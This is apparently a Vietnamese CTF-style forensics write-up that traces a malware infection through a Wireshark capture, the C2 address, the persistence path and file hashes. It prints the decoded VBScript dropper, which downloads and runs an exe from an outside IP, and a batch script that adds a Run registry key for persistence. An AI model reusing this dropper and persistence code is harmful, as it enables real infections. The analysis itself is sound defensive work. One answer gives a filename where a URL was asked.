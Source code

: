 ### 1. Mã hash của tệp mã độc (không phải tệp nén)?

Đầu tiên, ta mở file pcapng bằng phần mềm [wireshark](https://www.wireshark.org/)
Để tìm được file độc hại đó thì ta phải xác định luồng nào là đang thực hiện tải xuống, việc tải xuống từ các trang web thì hay dùng giao thức HTTP, ta lọc theo giao thức này 

![File zip](/Media/pcap1.png "pcapng")

Ngay đầu gói tin thứ 73 đầu tiên, ta thấy được giao thức này đang thực hiện lệnh GET để tải file manual.zip. Ta sẽ tải file này về bằng cách chọn **File** > **Export Object** > **HTTP**

Hộp thoại bật lên, ta có thể thấy có nhiều gói tin lớn nhỏ khác nhau, tập chung vào file zip và chọn **Save**. Từ đây ta có thể dùng các công cụ online để unzip và băm MD5, tôi đã sử dụng một số lệnh trên kali:

![File](/Media/md5_manual_file.png "chm")


    860f86601bc18dd205a5edc0d57a658d

### 2. Địa chỉ của C2 Server được sử dụng để nhận thông tin (IP:PORT)?

Quay lại gói tin wireshark, thường để máy chủ C&C có thể giao tiếp với nạn nhân thì sẽ phải có 1 máy chủ với IP thật. Như vậy, hacker mới có thể giao tiếp cũng như ra lệnh cho các con bot. Để ý gói tin thứ 1125 cho thấy, có command và lệnh POST *(Hacker chọn lệnh POST vì có thể không muốn bị các phần mềm an ninh ghi lại log, đảm bảo quá trình diễn ra bí mật )*.

Ngay kế tiếp dưới nó có một lệnh POST khác upload cái gì đó lên. Như vậy, chúng ta có thể bước đầu xác định đây là cuộc tấn công **Trojan horse** vì có thể con malware trước đã mở backdoor cho một cuộc tấn công khác! 

Thực hiện **Follor HTTP Stream** ta thấy. Máy chủ C&C đã gửi một lệnh **dir**, lệnh này dùng để liệt kê các thư mục trong windows. Ngay ở phần HOST, đó chính là IP và POST của C&C server

![File](/Media/command_execute.png "chm")

    43.201.253.28:5000

### 3. Hãy gửi đường dẫn của tệp chương trình mà kẻ tấn công sử dụng làm backdoor duy trì sự hiện diện?

Để tìm được đường dẫn mà kẻ tấn công duy trì, trước hết cần xem qua file manual.chm  *(Bản chất file này cũng là 1 file nén dặc biệt của windows nên ta cũng có thẻ hoàn toàn unzip nó ra được)*. Thực hiện dùng 7zip để giải nén file đấy ra ta thu được 1 loạt các file:



![File](/Media/inside_malware_file.png "chm")

Ta để ý và lượt qua một số file thường thấy, tại đây ta thử kiểm tra file HTMl. Sau khi xem qua mã nguồn của file, thì ngay ở cuối cùng thấy xuát hiện 2 chuỗi kỳ lạ, có thể nó đã được mã hóa rồi, dùng các công cụ nhận diện mã hóa, ở đây tôi sử dụng cyberchef 

![File](/Media/html_content.png "html")

```
Option Explicit

Dim strURL, strTempPath, strSaveTo
Dim objXML, objStream, objShell
Dim WshShell
Set WshShell = CreateObject("WScript.Shell")

Dim tempFolderPath
tempFolderPath = WshShell.ExpandEnvironmentStrings("%TEMP%")

Dim batFilePath
batFilePath = tempFolderPath & "\manual.bat"

WshShell.Run """" & batFilePath & """", 0, True

Set WshShell = Nothing

strURL = "http://43.203.173.81:8080"

Set objShell = CreateObject("WScript.Shell")
strTempPath = objShell.ExpandEnvironmentStrings("%TEMP%")

strSaveTo = strTempPath & "\menual.exe"

Set objXML = CreateObject("MSXML2.ServerXMLHTTP")

Set objStream = CreateObject("ADODB.Stream")
objStream.Open

objXML.Open "GET", strURL, False
objXML.Send

If objXML.Status = 200 Then
    objStream.Type = 1 ' 
    objStream.Write objXML.ResponseBody
    objStream.Position = 0 

    objStream.SaveToFile strSaveTo, 1
    objStream.Close

    objShell.Run strSaveTo, 1, False

End If

Set objStream = Nothing
Set objXML = Nothing
Set objShell = Nothing
```
```
@echo off
setlocal

set "tempPath=%TEMP%"

set "programPath=%tempPath%\guide.vbs"

set "regKeyName=Manual"

reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "%regKeyName%" /d "\"%programPath%\"" /f

endlocal
```

Trên đây là 2 đoạn đã giải mã từ đoạn mã hóa được xác định bằng giải mã base64, mã lệnh được viết bằng **VBScript**. Đoạn mã đầu tiên được thiết lập trỏ tới 1 file batch, sau đó gửi 1 yêu cầu GET lên máy chủ C&C, tải xuống 1 file menual.exe về.  Như vậy chính nó đã làm backdoor để tải file .exe về. 

Đoạn mã thứ 2 được viết vào file .bat, Tạo ra biến cục bộ tránh ảnh hưởng tới các biến khác, biến này trỏ đến thư mục TEMP và một biến khác trỏ tới file trong mã trên. Thực hiện thay đổi registry key để tự động kích hoạt mỗi khi người dùng đăng nhập vào windows. 

    C:\Users\user\AppData\Local\Temp\menual.exe


### 4. Mã độc đã nhận được lệnh gì từ C2 Server?

Theo lời dẫn giải tìm được trong câu 2, ta có thể kết luận 

    dir

### 5. Sau khi được thực thi, mã độc đã tải về một tệp mã độc khác, hãy trả lời url được sử dụng để tải về.?

Theo câu 3 vừa tìm được, ta thấy, file .exe được tải về được xác định sẵn tên

     menual.exe

### 6. Mã hash của độc menual?

Đầu tiên ta cần tìm ra được file menual.exe đấy, vì là tải về từ server nên các công cụ giám sát có thể đã ghi lại quá trình đó. Ta quay trở lại phân tích gói pcapng, xem quá trình sau khi file backdoor được tải về.

![menual](/Media/menual_execute_file.png "exe")

Như trong câu 3, trong biến STRurl có chứa 1 địa chỉ để tải xuống 1 file .exe thật trùng khớp với địa chỉ hiện trong Hostname, thực hiện tải về. Và check loại file

![2%f](/Media/file_check.png "/")

Vậy đây chính là file menual.exe mà mình cần, thực hiện hash nó, ta có câu trả lời

    0de9be1aba2e6dc3ce016fb24bfaad9e